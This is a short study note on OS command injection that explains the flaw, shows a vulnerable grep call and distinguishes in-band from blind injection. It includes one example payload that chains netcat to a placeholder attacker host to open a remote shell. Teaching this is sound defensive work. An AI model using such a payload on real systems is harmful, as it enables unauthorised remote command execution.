 # Command injection

[![oscommandinjection](../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)
[![command_injection](../../../_badges/poat/command_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[![picklerick](../../../_badges/thm/picklerick.svg)](https://tryhackme.com/room/picklerick)

<div class="row row-cols-md-2"><div>

Some websites may use the underlying system to run commands. For instance, a website on Linux might use `grep`, `sed`, or other utilities to do things faster/easily. A **command injection** occur when a developer use the user input in commands without proper sanitization/measures.

* Vulnerable call: `grep $injectable reports/` 
* Payload: `-V; nc hacker_ip port #`
* Result: `grep -V; nc hacker_ip port #reports/` which should open a remote shell on the target.
</div><div>

There are two kind of command injections

* **Regular/in-band**: the user receive the result of the command
* **Blind/out-band**: the hacker must use another way to know the result.
  * Using redirections/flags, create a URL-accessible output file
  * Using commands such as `sleep`/... to do a time-based attack

> **Command-injection** is a vulnerability leading to **Remote Command Execution** (RCE) which also means Remote Code Execution.
</div></div>